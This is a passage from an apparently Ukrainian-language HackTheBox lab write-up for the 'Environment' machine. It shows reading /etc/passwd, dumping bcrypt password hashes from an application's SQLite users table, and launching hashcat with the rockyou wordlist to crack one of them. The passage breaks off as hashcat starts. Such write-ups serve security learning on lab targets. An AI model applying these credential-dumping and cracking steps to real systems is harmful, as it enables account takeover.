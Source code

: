Після перегляду `/etc/passwd` (файл, що містить всіх користувачів, що існують в unix системах) ми можемо здогадатися, що нам потрібно буде отримати доступ до користувача hish, а потім експлуатувати наш шлях до root:
`www-data -> hish -> root`

### Перевірка файлів під www-data користувачем

Для початку нам потрібно перевірити будь-які критичні файли, які можуть містити інформацію про пароль hish (такі як логи, бази даних).

Під час пошуків я знайшов `database.sqlite` в `/var/www/app/database`:

![image](imgs/db.png)

![image](imgs/users-db.png)

```bash
www-data@environment:~/app/database$ sqlite3 database.sqlite
sqlite3 database.sqlite
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
cache                  jobs                   sessions
cache_locks            mailing_list           users
failed_jobs            migrations
job_batches            password_reset_tokens
sqlite> select * from users;
select * from users;
1|Hish|hish@environment.htb||$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi||2025-01-07 01:51:54|2025-01-12 01:01:48|hish.png
2|Jono|jono@environment.htb||$2y$12$i.h1rug6NfC73tTb8XF0Y.W0GDBjrY5FBfsyX2wOAXfDWOUk9dphm||2025-01-07 01:52:35|2025-01-07 01:52:35|jono.png
3|Bethany|bethany@environment.htb||$2y$12$6kbg21YDMaGrt.iCUkP/s.yLEGAE2S78gWt.6MAODUD3JXFMS13J.||2025-01-07 01:53:18|2025-01-07 01:53:18|bethany.png
sqlite>
```

Ми бачимо хешований пароль нашого користувача hish, який можемо спробувати зламати за допомогою hashcat:

```bash
~/HackTheBox/environment > echo '$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi' > hish_hash.txt
~/HackTheBox/environment > hashid hish_hash.txt
--File 'hish_hash.txt'--
Analyzing '$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
--End of file 'hish_hash.txt'--%
~/HackTheBox/environment > hashcat hish_hash.txt -m 3200 /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v7.1.2) starting
```
